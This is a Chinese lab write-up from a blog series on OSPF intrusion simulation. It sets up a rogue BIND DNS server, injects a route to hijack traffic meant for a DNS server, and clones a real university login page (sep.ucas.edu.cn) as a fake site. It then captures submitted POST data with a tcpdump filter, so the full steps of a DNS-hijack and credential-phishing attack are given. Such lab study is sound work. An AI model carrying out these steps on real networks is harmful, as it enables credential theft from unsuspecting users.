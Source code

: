 ```yaml
---
title: OSPF 模拟入侵测试4-劫持DNS服务器IP
date: 2016/7/18 14:33:46 
description: OSPF 模拟入侵测试4-劫持DNS服务器IP
categories: 技术
tags: [ospf,network]
---
```


### 1. 实验环境

####  实验拓扑

使用GNS3搭建实验拓扑，实验拓扑如图1-1所示，其中R1、R2为OSPF网络，CentOS_Fun为入侵主机，模拟路由器，PC3模拟一个DNS服务器，IP地址为210.76.211.7/24。CentOS7_Fun同时运行HTTP服务，DNS服务。此时假设条件如下：

- CentOS7直接获取了所有DNS服务器的流量，并冒充该DNS服务器
- 假设CentOS7_Fun的IP地址为30.30.30.2的IP为正常网页服务器
- 假设CentOS7_Fun的IP地址为210.76.211.7对应的IP为中间人攻击网页服务器
- 假设正确网页服务器域名为test.edu.cn，对应IP为30.30.30.2。

<center> ![1-1](http://qingdao.icean.cc:11234/Imgbed/OSPF_模拟入侵测试4_DNS服务器伪装/1-1.jpg)</center><center style="color:purple">**图1-1 实验拓扑**</center>

####  IP地址表

| 设备          | 端口     | IPv4地址               | IPv6地址                |
| ----------- | ------ | -------------------- | --------------------- |
| Gateway     | f0/0   | 10.10.10.253/24      | 2001:10:10:10::253/64 |
|             | lo0    | 1.1.1.1/32           | 2001:1:1:1::1/64      |
| R2          | f1/0   | 10.10.10.254/24      | 2001:10:10:10::254/64 |
|             | f0/0   | 20.20.20.1/24        | 2001:20:20:20::1/64   |
| R1          | f1/0   | 30.30.30.254/24      | 2001:30:30:30::254/64 |
|             | f0/0   | 20.20.20.2/24        | 2001:20:20:20::2/64   |
|             | f1/1   | 210.76.211.254/24    | /                     |
| CentOS7_fun | enp0s3 | 30.30.30.2/24        | eui-64                |
|             | enp0s9 | 210.76.211.7/24      | eui-64                |
| Winxp2      | e2     | 30.30.30.1/24 (DHCP) | eui-64                |
| DNS服务器      | e0     | 210.76.211.7/24      | /                     |

####  路由器配置 

配置不变，与《OSPF 模拟入侵测试2-指定主机欺骗》中配置一样。

----------

### 2. 伪造DNS

####  DNS服务搭建

安装相关服务

```shell
yum install -y bind*
```

配置/etc/named.conf

修改配置如下

```shell
options {
    listen-on port 53 { any; };
    listen-on-v6 port 53 { any; };
    directory   "/var/named";
    dump-file   "/var/named/data/cache_dump.db";
    statistics-file "/var/named/data/named_stats.txt";
    memstatistics-file "/var/named/data/named_mem_stats.txt";
    allow-query     { any; };

    recursion no; 
    dnssec-enable yes;
    dnssec-validation yes;

    /* Path to ISC DLV key */
    bindkeys-file "/etc/named.iscdlv.key";

    managed-keys-directory "/var/named/dynamic";

    pid-file "/run/named/named.pid";
    session-keyfile "/run/named/session.key";
};

logging {
        channel default_debug {
                file "data/named.run";
                severity dynamic;
        };
};
zone "." IN {
    type hint;
    file "named.ca";
};
zone "edu.cn" IN {
    type master;
    file "named.edu.cn";
};
```

添加数据文件

```shell
$TTL 600
@ IN SOA dns.edu.cn. admin.edu.cn. (2011080401 3H 15M 1W 1D) 
@ IN NS dns.edu.cn.
dns.edu.cn. IN A 210.76.211.1
                                                                                                                                 
test.edu.cn. IN A 210.76.211.7  #将正确域名指向伪装http服务器
test2.edu.cn. IN A 30.30.30.2    #将正确http授予一个类似域名。
```

启动named服务，并开启iptables相关选项。

---

### 3. 抓取数据

####  注入路由 

在Vigilante上注入路由如下，将本来到PC3的流量引到CentOS7_Fun的enp0s9上，包括DNS流量。

```css
ip route 210.76.211.7/32 enp0s9
```

####  网页修改

- 下载sep.ucas.edu.cn的登录主页，并把其中的名称修改为为index.html，其配置文件夹的名称也改为英文 。下载到210.76.211.7（伪造http服务器，IP为210.76.211.1，域名为test.edu.cn）
- 修改网页跳转，选择跳转正确的网页服务器（IP为30.30.30.2，域名为test2.edu.cn），
- 这里为了节省资源，使用了一台主机的两张网卡分别扮演正确的网页服务器和伪造网页服务器。

```
DirectoryIndex index.html
```


####  tcpdump抓取POST请求

tcpdump抓post语句如下所示

```
tcpdump -i enp0s3 'host 210.76.211.7 and port 80 and tcp[((tcp[12:1] & 0xf0) >> 2):4] = 0x504f5354' -w sep+.cap
```

其中0x504f5354意义为，代表POST

```
P=0x50
O=0x4f
S=0x53
T=0x54
```

####  读取结果 

讲读取文件结果使用sftp传输到本机，使用Wireshark打开抓去的POST结果。
